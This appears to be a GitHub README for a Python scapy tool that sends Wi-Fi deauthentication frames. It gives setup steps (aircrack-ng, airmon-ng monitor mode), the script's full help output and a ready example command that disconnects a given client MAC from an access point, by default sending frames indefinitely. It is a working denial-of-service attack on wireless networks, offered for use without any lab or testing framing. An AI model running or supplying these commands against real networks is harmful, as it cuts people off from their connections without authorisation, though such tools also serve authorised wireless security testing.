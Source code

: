
# wifideauthenticator
to run this:

    Linux Machine.
    USB WLAN Stick.
    aircrack-ng.
    Turn the network interface to Monitor mode using the command:

    airmon-ng start wlan0

    pip3 install -r requirements.txt.

    python3 scapy_deauth.py --help

    Output:

    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages

    For instance, if you want to deauthenticate "00:ae:fa:81:e2:5e" on an access point "e8:94:f6:c4:97:3f", you can easily by:

    python3 scapy_deauth.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wlan0mon -v


